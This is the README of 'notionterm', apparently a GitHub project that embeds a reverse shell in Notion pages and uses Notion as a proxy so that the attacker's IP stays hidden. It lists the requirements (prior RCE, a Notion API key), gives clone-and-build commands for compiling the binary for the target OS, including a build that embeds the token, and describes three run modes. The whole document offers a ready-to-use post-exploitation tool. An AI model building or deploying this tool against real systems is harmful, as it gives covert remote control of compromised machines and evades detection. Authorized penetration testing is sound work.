 <div align="center">
<h1>
  <code>notionterm</code> 
</h1>
  <img src="https://github.com/ariary/notionterm/blob/main/img/notionterm.png"  width=150>
  
  <strong> Embed reverse shell in <a href="https://www.notion.so">Notion</a> pages.</strong><br>
  <i>Hack while taking notes</i>

<a href="https://github.com/spencerpauly/awesome-notion"><img src="https://awesome.re/mentioned-badge.svg"></a>

</div>

---

![demo](https://github.com/ariary/notionterm/blob/main/img/demo_dark_light.gif)

---
<div align=left>
<h3>FOR ➕:</h3>
<ul>
  <li>Hiding attacker IP in reverse shell <i>(No direct interaction between attacker and target machine. Notion is used as a proxy hosting the reverse shell)</i></li>
  <li>Demo</li>
  <li>Quick proof insertion within report</li>
  <li>High available and shareable reverse shell (desktop, browser, mobile)</li>
  <li>Encrypted and authenticated remote shell</li>
</ul> 
</div>
<div align=left>
<h3>NOT FOR ➖:</h3>
<ul>
  <li>Long and interactive shell session (see <a href=https://github.com/ariary/tacos>tacos</a> for that)</li>
</ul>
</div>

---
<div align=left>
<h3 >Why? 🤔 </h3>
The focus was on making something fun while still being usable, but that's not meant to be THE solution for reverse shell in the pentester's arsenal
</div>
<div align=right>
<h3 >How?  🤷‍♂️</h3>
Just use notion as usual and launch <code>notionterm</code> on target.
</div>
<div align=left>
<h3 >Requirements 🖊️</h3>
 <ul>
  <li>Notion software and API key</li>
  <li>Allowed HTTP communication from the target to the notion domain</li>
  <li>Prior RCE on target</li>
</ul> 
</div>

---
<blockquote align=left>
roughly inspired by the great idea of <a href="https://github.com/mttaggart/OffensiveNotion">OffensiveNotion</a> and <a href="https://github.com/ariary/Notionion">notionion</a>! 
</blockquote>

## Quickstart

### 🏗️ Set-up
1. Create a page and give to the integration API key the permissions to have write access to the page
2. Build `notionterm` and transfer it on target machine (see [install](#install))

### 👟 Run

There are 3 main ways to run `notionterm`:

<details>
  <summary><b>"normal" mode</b><br><i>Get terminal, stop/unstop it, etc...</i></summary>
<code>
notionterm [flags]
</code><br>
Start the shell with the button widget: turn <code>ON</code>, do you reverse shell stuff, turn <code>OFF</code> to pause, turn <code>ON</code> to resume etc...
</details>

<details>
  <summary><b>"server" mode</b><br><i>Ease notionterm embedding in any page</i></summary>
<code>
notionterm --server [flags]
</code><br>
Start a shell session in any page by creating an embed block with URL containing the page id <i>(<code>CTRL+L</code>to get it)</i>: <code>https://[TARGET_URL]/notionterm?url=[NOTION_PAGE_ID]</code>.
</details>


<details>
  <summary><b><code>light</code> mode</b><br><i>Only perform HTTP traffic from target → notion</i></summary>
<code>
notionterm light [flags]
</code>
</details>

## Install

As `notionterm` is aimed to be run on target machine it must be built to fit with it.

Thus set env var to fit with the target requirement:
```shell
GOOS=[windows/linux/darwin]
```

### Simple build
```shell
git clone https://github.com/ariary/notionterm.git && cd notionterm
GOOS=$GOOS go build notionterm.go
```

### "all-inclusive" build
Embed directly the notion integration API token and notion page url in the binary. ⚠️ everybody with access to the binary can retrived the token. For security reason don't share it and remove it after use.

Set according env var:
```shell
export NOTION_PAGE_URL=[NOTION_PAGE_URL]
export NOTION_TOKEN=[INTEGRATION_NOTION_TOKEN]
```
And build it:
```
git clone https://github.com/ariary/notionterm.git && cd notionterm
./static-build.sh $NOTION_PAGE_URL $NOTION_TOKEN $GOOS go build notionterm.go
```

